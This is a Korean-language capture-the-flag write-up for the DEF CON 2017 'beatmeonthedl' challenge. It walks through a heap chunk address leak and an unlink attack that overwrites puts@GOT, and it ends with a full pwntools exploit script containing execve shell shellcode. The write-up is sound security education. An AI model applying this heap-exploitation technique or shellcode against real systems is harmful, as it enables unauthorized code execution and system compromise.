


# DEF CON CTF Qualifier 2017: beatmeonthedl

**write-up by [kimtruth](https://github.com/kimtruth)**

**Category:** Baby's First

**Description:**

> I really like to be beaten but keep it on the dl.
>
> Connect to:
>
> beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me 6969
>
> Files: [beatmeonthedl](https://github.com/kimtruth/CTF-write-up/raw/master/DEF%20CON%20CTF%20Qualifier%202017/beatmeonthedl/beatmeonthedl)

## [Step 1] Login



login에 필요한 id와 password는 하드코딩 되어있으므로 쉽게 구할 수 있었다.

id : mcfly

pw : awesnap



## [Step 2] Leak

malloc chunk의 변화를 먼저 살펴보자.
<table>
  <tr>
    <th>malloc
    <th>After free
  <tr>
    <td>prev_size
    <td>prev_size
  <tr>
    <td>size
    <td>size
  <tr>
    <tr>
    <td rowspan="3">data
    <td>fd
  <tr>
    <td>bk
  <tr>
    <td>...
</table>

#### 삽질의 시작
fd, bk에는 다음, 이전 chunk의 주소가 들어가므로 이것을 이용해서 우리가 지금 할당하고 있는 heap의 주소를 leak하기로 했다.

먼저 프로그램의 1번 메뉴(I) Request Exploit.)를 통해서 3개정도의 데이터를 넣었다. 그리고 중간에 위치한 1번을 free시킨뒤 heap을 확인해 보았다.

chunk_1만 free가 진행된 상황

| 주소   |  영역       | 값|
| ----- |:-----------:| ----:|
|&chunk_0| prev_size  |  0|
|&chunk_0(+ 0x8)| size (FLAG) |  0x40 (IS_MMAPPED,PREV_INUSE)|
|&chunk_0(+ 0x10 ~ +0x38)| data |  유저가 입력한 값들 |
|&chunk_1| prev_size  |  0|
|&chunk_1(+ 0x8)| size (FLAG) |  0x40 (PREV_INUSE)|
|&chunk_1(+ 0x10)| fd |  0x609b88 |
|&chunk_1(+ 0x18)| bk |  0x609b88 |
|&chunk_1(+ 0x20 ~ +0x38)| ... |  ... |
|&chunk_2| prev_size  |  0|
|&chunk_2(+ 0x8)| size (FLAG) |  0x40 (IS_MMAPPED)|
|&chunk_2(+ 0x10 ~ +0x38)| data |  유저가 입력한 값들 |


현재는 이런 circular doubly linked list를 이루고 있다.

저기에 chunk가 하나 더 붙는다면 어떻게 될까?

```
+---------------------------------------+
|                                       |
|      ----------   fd   ---------      |
+---->|          |----->|         |-----+
      | 0x609b88 |      | chunk_1 |
+-----|          |<-----|         |<----+
|      ----------   bk   ---------      |
|                                       |
+---------------------------------------+
```

[\*] 이때 주의할 점은 연속한 청크를 free하게 되면 unlink가 일어나므로 저기 doubly linked list에 추가되지 않는다.

`ex) 1번 free후 2번 free는 unlink를 일으킴.`

그러면 이번엔 5개를 할당한 후, 1번 free, 3번 free를 순서대로 해보자.

1, 3번 chunk를 free한 후의 heap은 이렇다.

| 주소   |  영역       | 값|
| ----- |:-----------:| ----:|
|&chunk_0| prev_size  |  0|
|&chunk_0(+ 0x8)| size (FLAG) |  0x40 (IS_MMAPPED,PREV_INUSE)|
|&chunk_0(+ 0x10 ~ +0x38)| data |  유저가 입력한 값들 |
|&chunk_1| prev_size  |  0|
|&chunk_1(+ 0x8)| size (FLAG) |  0x40 (PREV_INUSE)|
|&chunk_1(+ 0x10)| fd |  0x609b88 |
|&chunk_1(+ 0x18)| bk |  &chunk_3 |
|&chunk_1(+ 0x20 ~ +0x38)| ... |  ... |
|&chunk_2| prev_size  |  0|
|&chunk_2(+ 0x8)| size (FLAG) |  0x40 (IS_MMAPPED)|
|&chunk_2(+ 0x10 ~ +0x38)| data |  유저가 입력한 값들 |
|&chunk_3| prev_size  |  0|
|&chunk_3(+ 0x8)| size (FLAG) |  0x40 (PREV_INUSE)|
|&chunk_3(+ 0x10)| fd |  &chunk_1 |
|&chunk_3(+ 0x18)| bk |  0x609b88 |
|&chunk_3(+ 0x20 ~ +0x38)| ... |  ... |
|&chunk_4| prev_size  |  0|
|&chunk_4(+ 0x8)| size (FLAG) |  0x40 (IS_MMAPPED)|
|&chunk_4(+ 0x10 ~ +0x38)| data |  유저가 입력한 값들 |

```
+--------------------------------------------------------+
|                                                        |
|      ----------   fd   ---------   fd   ---------      |
+---->|          |----->|         |----->|         |-----+
      | 0x609b88 |      | chunk_3 |      | chunk_1 |
+-----|          |<-----|         |<-----|         |<----+
|      ----------   bk   ---------   bk   ---------      |
|                                                        |
+--------------------------------------------------------+
```

chunk_1의 bk에 chunk_3의 주소가 담겼다! 그렇다면 어떻게 leak할 수 있을까?

```c
// ida hexray results
// add_request
  printf("Request text > ", (unsigned int)i);
  result = read(0, *(&reqlist + i), 0x80uLL);

// update_request
  printf("data: ");
  LODWORD(v0) = read(0, *(&reqlist + v2), 0x80uLL);
```

0x80 bytes나 쓸 수 있다. 현재 할당되고 있는 chunk의 사이즈보다 크다. 

chunk_1에 담긴 bk값을 출력시키려면 chunk_0의 내용을 bk전까지 모두 'A'같은걸로 채우면 null문자가 없기 때문에 bk도 같이 출력되어 leak 될 것이다.

| 주소   |  영역       | 값|
| ----- |:-----------:| ----:|
|&chunk_0| prev_size  |  0|
|&chunk_0(+ 0x8)| size (FLAG) |  0x40 (IS_MMAPPED,PREV_INUSE)|
|&chunk_0(+ 0x10)| data |  AAAAAAAA |
|&chunk_0(+ 0x18)| data |  AAAAAAAA |
|&chunk_0(+ 0x20)| data |  AAAAAAAA |
|&chunk_0(+ 0x28)| data |  AAAAAAAA |
|&chunk_0(+ 0x30)| data |  AAAAAAAA |
|&chunk_0(+ 0x38)| data |  AAAAAAAA |
|&chunk_1| prev_size  |  AAAAAAAA|
|&chunk_1(+ 0x8)| size (FLAG) |  AAAAAAAA|
|&chunk_1(+ 0x10)| fd |  AAAAAAA\n |
|&chunk_1(+ 0x18)| bk |  &chunk_3 |
|&chunk_1(+ 0x20 ~ +0x38)| ... |  ... |

```
I) Request Exploit.
II) Print Requests.
III) Delete Request.
IV) Change Request.
V) Go Away.
| 4
0) AAA

2) CCC

4) EEE

choice: 0
data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I) Request Exploit.
II) Print Requests.
III) Delete Request.
IV) Change Request.
V) Go Away.
| 2
0) AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
?`
2) CCC

4) EEE
```

정상적으로 chunk_3의 주소가 leak되고 있다. 


## [Step 3] Exploit

[배경지식]
자 이제 chunk의 주소를 leak을 할 수 있게 되었다. exploit만이 남았다.

exploit은 unlink를 사용할 것이다. unlink는 다음과 같이 이루어져 있는데 doubly linked list의 중간 노드 삭제랑 같다.

```c
#define unlink( P, BK, FD ) {
    BK = P->bk;
    FD = P->fd;
    FD->bk = BK;
    BK->fd = FD;
}
```

이때 `FD->bk = BK;, BK->fd = FD;`라는 부분을 잘 봐야 한다. 이 부분은 `*(fd + 0x18) = bk; *(bk + 0x10) = fd;`와 같다. 

왜 그런지는 위 heap 표를 보길바란다.

`ex) chunk_0의 bk는 chunk_0 + 0x18이다. 그렇다면 FD의 bk는 FD + 0x18.`

그렇다면 만약 fd에 값을 넣고 싶은 주소 - 0x18을 넣고 bk에 원하는 값을 넣으면 unlink과정에서 넣어질 것이다. `*(fd + 0x18) = bk;`

일단 전체적인 시나리오는 이렇다.

```
1. 0번 ~ 7번 chunk를 생성
2. chunk_1, chunk_3을 free
3. chunk_0을 update하여 chunk_1의 bk값(&chunk_3) leak
4. chunk_6을 free 
5. chunk_5를 update하여 shellcode를 넣고 chunk_6의 fd(&puts@got - 0x18), bk(&chunk_5의 data가 들어가는 주소) 조작
6. chunk_7을 free (unlink 발생)
7. shell 획득
```

unlink하는 부분을 봐보자

```
*(fd + 0x18) = bk; // puts@got = chunk_5의 data 시작 주소 (shellcode가 들어간 곳이다.)

*(bk + 0x10) = fd; // *(chunk_5의 data + 0x10) = fd 이 부분을 조심해야 한다. 
```

그래서 SHORT Relative Jump를 이용할 것이다.

`jmp 0x18;`처럼 상대적인 jmp를 할 수 있도록 shellcode에 넣어주면 `BK->fd=fd` 때문에 들어온 fd의 값을 jmp하고 그 다음 shellcode를 실행 시켜주면 된다.

## Solution Code

```python
from pwn import *

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p = process('./beatmeonthedl')
#print pidof(p)
#p = remote('beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me', '6969')
def login():
  p.recvuntil(': ')
  p.sendline("mcfly")
  p.recvuntil(': ')
  p.sendline("awesnap")

def menu():
  p.recvuntil('| ')

def alloc(msg):
  menu()
  p.sendline('1')
  p.recvuntil('> ')
  p.sendline(msg)

def free(num):
  menu()
  p.sendline('3')
  p.recv()
  p.sendline(num)

def write(idx,msg):
  menu()
  p.sendline('4')
  p.recvuntil(': ')
  p.sendline(idx)
  p.recvuntil(': ')
  p.sendline(msg)

def print_all():
  menu()
  p.sendline('2')
  return p.recvuntil("\n\n")

login()

for i in range(8):
  alloc("A")

print "[*] free chunk_1"
free('1')

print "[*] free chunk_3"
free('3')

print "[*] update chunk_0"
write('0','A'*71)

leak = u32(print_all().split('\n')[1])

print "[*] 3rd chunk leaked :", hex(leak)

puts = 0x609958 # puts@got
fd = puts - 0x18
bk = leak + 0x90 # chunk_5's data addr

payload  = "\x48\x31\xF6\xeb\x13"# xor rsi, rsi; jmp 0x18;
payload += "\x90" * 24
payload += shellcode
payload += "\x90" * (64 - len(payload))
payload += p64(fd)
payload += p64(bk)

print "[*] free chunk_6"
free('6')

print "[*] update chunk_5"
write('5', payload)

print "[*] free chunk_7"
free('7')

p.interactive()
```
